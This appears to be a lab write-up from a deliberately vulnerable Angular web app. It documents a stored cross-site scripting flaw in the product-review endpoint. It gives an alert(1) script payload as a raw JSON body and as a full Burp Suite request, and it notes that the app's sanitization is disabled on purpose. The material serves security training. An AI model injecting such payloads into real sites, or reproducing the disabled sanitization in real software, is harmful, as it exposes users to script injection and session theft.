 # Stored Cross Site Scripting (XSS)
The stored variant XSS, like other variations, inject scripts into benign, non-attacker controlled websites.  The distinction is stored XSS  _stores_ the injected scripts/code on the server, resulting in the script persisting beyond the current HTTP session.

## Exploitation
**Prerequisites:** _Authenticated, Ordered the Product_

**Location:** _POST /productreviews_

While posting reviews HTML tags, including script, can be specified in the _comment_ parameter. The Angular application is configured to bypass Angular's two primary protections: encoding all interpolated variables and auto-removal of script tags which prevent Stored XSS (or any other XSS).  Below is an exploitation example:

    POST /productreviews
    raw:
    {
    "product" : {"id" : 1},
    "title" : "Disgusting",
    "grade" : 1,
    "comment" : "<script>alert(1);</script>"
    }

To execute the script go to the ProductPage of the review you POSTed to, in our case Product 1 or Vanilla Candle.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }

## Burp Suite Example Exploitation

    POST /productreviews HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 90
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: 5b2aef5f-69e8-4335-b4ac-d9e02c9545dc
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=5b2aef5f-69e8-4335-b4ac-d9e02c9545dc; JSESSIONID=37C756F1CE0059619B8EC2FD9FB19AF1
    Connection: close

    {"product":{"id":1},"title":"Disgusting","grade":1,"comment":"<script>alert(1);</script>"}
